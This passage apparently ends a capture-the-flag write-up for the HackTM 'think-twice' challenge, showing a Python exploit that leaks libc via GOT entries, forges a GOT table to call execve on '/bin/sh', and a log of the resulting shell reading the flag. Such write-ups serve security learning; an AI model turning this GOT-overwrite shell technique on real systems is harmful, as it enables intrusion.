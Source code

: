```python
    s.sendlineafter(" [#] Enter What: ",str(what))


ret = 0x000040092F
code_block = 0x000000000400A50
fflush_got = 0x000000000601050
puts_got = 0x0000000000601018
printf_got = 0x000000000601030
exit_got = 0x000000000601068
write_got = 0x000000000601020
codeBlock = 0x0000000400AA9

got_start = 0x000000000601000

stdin = u64(leak(0x601090))
log.info("stdin @ " + hex(stdin))
buf_base = stdin +0x38

puts_libc = u64(leak(puts_got))
libcBase = puts_libc-0x691c0
log.info("libc base @ " + hex(libcBase))
system = libcBase + 0x40010
execve = libcBase + 0xb7e80
log.info("execve @ " + hex(execve))

fake_got = "1\n" + "\x00"*6 + p64(0) + p64(ret)*8 +  p64(0x0000000004008B0) +p64(execve) +p64(ret)*2 + "/bin/sh\x00" + p64(0) + p64(0x601070)*6

write(buf_base , got_start)
s.sendlineafter(" >",fake_got)


s.interactive()
```

```bash
slashb4sh@ubuntu:~/HackTM/think-twice$ python exploit.py 
[+] Opening connection to 138.68.67.161 on port 20004: Done
[*] stdin @ 0x7f9b57cdc8c0
[*] libc base @ 0x7f9b57943000
[*] execve @ 0x7f9b579fae80
[*] Switching to interactive mode
$ ls
flag.txt
libc.so
loader.so
run.sh
think-speak
$ cat flag.txt
HackTM{th3_my5t3r13s_0f_th3_ELF_h4v3_b33n_r3v34l3d}
```
## Flag

**FLAG**: `HackTM{th3_my5t3r13s_0f_th3_ELF_h4v3_b33n_r3v34l3d}`